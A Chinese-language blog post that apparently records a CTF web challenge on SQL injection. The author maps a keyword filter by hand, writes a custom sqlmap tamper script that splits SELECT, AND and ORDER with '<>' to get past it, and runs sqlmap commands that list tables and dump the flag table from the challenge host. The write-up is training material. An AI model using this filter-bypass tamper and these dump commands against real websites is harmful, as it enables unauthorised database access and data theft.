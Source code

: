 ```yaml
---

layout: post
title:  CTF竞赛-SQL注入
description: 本文为CTF web网络攻防方向，主要记录SQL注入的一道题
date:   2021-04-13 21:45:00 +0800
image:  '/images/gallery/wineglass-and-a-bowl-of-fruit.jpg'
tags:   [网络安全, CTF]
mathjax: true
---
```


> <cite>Title: Wineglass and a Bowl of Fruit  
Creator: Willem Kalf (Dutch, 1619–1693)  
Date Created: 1663  
Physical Dimensions: Framed: 81 x 70.5 x 7.5 cm (31 7/8 x 27 3/4 x 2 15/16 in.); Unframed: 60.3 x 50.2 cm (23 3/4 x 19 3/4 in.)  
Type: Painting  
Medium: oil on canvas  
Inscriptions: Signed and dated lower left: "W. KALF 1663"  
Fun Fact: Willem Kalf was the most accomplished proponent of the <em>pronkstilleven</em>, a Dutch term meaning "ostentatious still life."  
Department: European Painting and Sculpture  
Culture: Netherlands, 17th century  </cite>  

CTF竞赛题目类型主要包含 _Web 网络攻防_ 、 _Reverse 逆向工程_ 、 _Pwn 二进制漏洞利用_ 、 _Crypto 密码攻击_ 、 _Mobile 移动安全_ 以及 _Misc 安全杂项_ 这六个类别。

本文为web网络攻防方向。

## 赛题

### 初始来源

#“百度杯”CTF比赛# #九月场# #SQL#

### 赛题传送门

<a href="https://www.ichunqiu.com/battalion?t=1" target="_blank">i春秋CTF大本营</a>  

【赛题类型】—>【CTF训练】

【比赛名称】—>【全部】

【题目类型】—>【Web】

选择价值 _50pt_，类型为 _Web_，名称为【SQL】的题目：

![image-20210413211837458](images/posts/ctf/image-20210413211837458.png)

## 解题过程

题目内容：

出题人就告诉你这是个注入，有种别走！

题目很嚣张，进入靶场环境后，也很直接，告诉你flag就在数据库中。习惯性打开F12，调出**HackBar**:

![image-20210413212033452](images/posts/ctf/image-20210413212033452.png)

- 先一顿手工注入测试，基本上出现下面三种回显：

  1）明说是**注入代码**

  ![image-20210413212311861](images/posts/ctf/image-20210413212311861.png)

  2）空白

  ![image-20210413212415559](images/posts/ctf/image-20210413212415559.png)

  3）**有效回显**

  ![image-20210413212510702](images/posts/ctf/image-20210413212510702.png)

- 时间过去了一大半，终于探测出来了个大概：

  - select、and、or、order等关键词会被检测直接标记**inj code**
  - <>会被替换为空
  - union联合查询输出长度为3

- 下面开始祭出sqlmap大法，当然需要会使用基本的sqlmap语法，网上教程请自行慢慢享用

  另外还需要会编写sqlmap tamper的一点点知识

  这里，我找了个sqlmap自带的`escapequotes.py`的过滤语法：

  ```python
  #!/usr/bin/env python
  
  """
  Copyright (c) 2006-2018 sqlmap developers (http://sqlmap.org/)
  See the file 'LICENSE' for copying permission
  """
  
  from lib.core.enums import PRIORITY
  
  __priority__ = PRIORITY.NORMAL
  
  def dependencies():
      pass
  
  def tamper(payload, **kwargs):
      """
      Slash escape single and double quotes (e.g. ' -> \')
  
      >>> tamper('1" AND SLEEP(5)#')
      '1\\\\" AND SLEEP(5)#'
      """
  
      return payload.replace("'", "\\'").replace('"', '\\"')
  ```

  然后在此基础上，修改为刚刚找出来的几个关键词过滤，保存为自己的`mytam`：

  ```python
  #!/usr/bin/env python
  
  """
  Copyright (c) 2006-2018 sqlmap developers (http://sqlmap.org/)
  See the file 'LICENSE' for copying permission
  """
  
  from lib.core.enums import PRIORITY
  
  __priority__ = PRIORITY.NORMAL
  
  def dependencies():
      pass
  
  def tamper(payload, **kwargs):
      """
      Slash escape single and double quotes (e.g. ' -> \')
  
      >>> tamper('1" AND SLEEP(5)#')
      '1\\\\" AND SLEEP(5)#'
      """
  
      payload = payload.replace("SELECT", "SE<>LECT").replace('AND', 'AN<>D').replace("ORDER", "ORD<>ER")
      return payload
  ```

  重点就是替换了`select`、`and`、`order`三个关键词

- 然后放到sqlmap里跑一跑：

  `sqlmap -u "http://26dd0061fbe24d5ea27afa9403e9265c78eebd7d89ec452c.changame.ichunqiu.com/index.php?id=1"  --tamper=./mytam.py`

  ![image-20210413213455006](images/posts/ctf/image-20210413213455006.png)

  因为我已经跑过一遍了，这里直接读取session拿到结果了，说明这里存在可以利用的sql漏洞

- 接下来获取数据库和表：

  `sqlmap -u "http://26dd0061fbe24d5ea27afa9403e9265c78eebd7d89ec452c.changame.ichunqiu.com/index.php?id=1"  --tamper=./mytam.py --tables`

  ![image-20210413213706267](images/posts/ctf/image-20210413213706267.png)

  可以发现除了系统表以外，在sqli数据库里面存在两张表：info和users，大概率就在info表里了

- 直接查info表里的所有信息：

  `sqlmap -u "http://26dd0061fbe24d5ea27afa9403e9265c78eebd7d89ec452c.changame.ichunqiu.com/index.php?id=1"  --tamper=./mytam.py -D sqli -T info --dump`

  ![image-20210413213857446](images/posts/ctf/image-20210413213857446.png)

至此，得到flag。

## 总结

这次题目主要针对sql注入，注意点有两个：

1、手工注入测试，找到过滤规则，这也是在实战中经常会需要绕过WAF的方法，多练就是了

2、sqlmap的熟练使用，会加快渗透测试流程。前提也是需要对sqlmap有一定的熟练程度
